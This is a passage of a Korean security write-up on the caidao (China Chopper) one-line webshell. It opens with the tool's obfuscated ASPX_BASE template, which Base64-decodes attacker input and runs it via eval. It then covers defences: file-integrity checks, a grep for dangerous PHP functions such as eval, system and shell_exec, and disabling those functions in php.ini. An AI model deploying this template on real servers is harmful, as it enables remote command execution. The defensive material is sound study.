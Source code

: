       // ASPX_BASE 매개 변수 : %s,%d,%s,%s
      <ASPX_BASE>
      %%u0052%%u0065sponse%%u002E%%u0057rit%%u0065("%s");var %%u0065rr:%%u0045xc%%u006
      5ption;%%u0074ry%%u007B%%u0065val(Syst%%u0065m%%u002ET%%u0065xt%%u002E%%u0045nco
      ding%%u002EG%%u0065t%%u0045ncoding(%d)%%u002EG%%u0065tString(Syst%%u0065m.Conv%%
      u0065rt%%u002EFromBas%%u006564String("%s")),"unsaf%%u0065");
      %%u007Dcatch(err)%%u007B%%u0052esponse%%u002E%%u0057rite("ER"%%2B"ROR://"%%2Berr
      .message);%%u007D%%u0052%%u0065sponse.%%u0057rit%%u0065("%s");%%u0052espons%%u00
      65.%%u0045nd();
      </ASPX_BASE>



## ( 6 ) One Line WebShell 방어법

보통 보안장비에 탐지 정책을 넣을 때 행위 시 발생되는 고유한 시그니처를 기반으로 둔 PCRE 형태로 탐지 정책을 설정함.
그러나 caidao 최신 버전(20160620)에서는 공격자가 원하는 우회 기법을 이용해서 설정 파일(caidao.conf)을 수정 적용해서 공격이 가능하므로 고유한 시그니처를 얻기 힘들 수 있음.
파일 업로드 취약점이라든지 코드 삽입 취약점이 존재하지 않도록 시큐어 코딩하거나 웹 서버의 PHP 파일들의 고유 MD5 값을 저장하여 수시로 변조되거나 새로 생긴 파일이 있는지 여부를 확인하는게 제일 좋은 방법임.
타임 스탬프 확인은 좋은 방법이긴 하나 공격자가 변조가 가능함.

참고로 아래 명령어는 현재 폴더 및 하위폴더의 모든 PHP 파일 중에서 위험한 함수명을 검색하여 웹쉘 파일을 찾는 명령어로 해당 파일 경로를 표시해줌.

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/ead5ea13-5626-49e4-ba13-5e8c5268dafe)

find . -name \*.php | xargs grep eval
eval 대신 system, exec, passthru, escapeshellcmd, pcntl_exec, shell_exec, proc_open, popen, curl_exec, curl_multi_exec, parse_ini_file, show_source 등을 넣어서 확인함.

또한, 위 위험한 함수명들을 사용하지 못하도록 php.ini 파일 내에서 disabled_function 옵션에 추가하면 됨.

위 로그 검색은 리눅스 환경에서 가능하며 disabled_function 옵션 설정은 PHP 어플리케이션에서만 가능함.
타 OS 및 웹 언어 어플리케이션에 따른 웹쉘 방어법은 추가로 공부해야 함.
워낙에 방대한 분야라 하루 내로 끝내기는 어려울 듯 함.

</br>


##### 원작자: 문광일 PM
##### 링크: [KOROMOON][koromoonlink]
[koromoonlink]: https://koromoon.blogspot.com/2020/02/caidao-20160620-one-line-webshell.html "Go koromoon"

</br>

참고 사이트 : 

https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html
https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-ii.html
http://informationonsecurity.blogspot.kr/2012/11/china-chopper-webshell.html
https://blog.lael.be/post/158
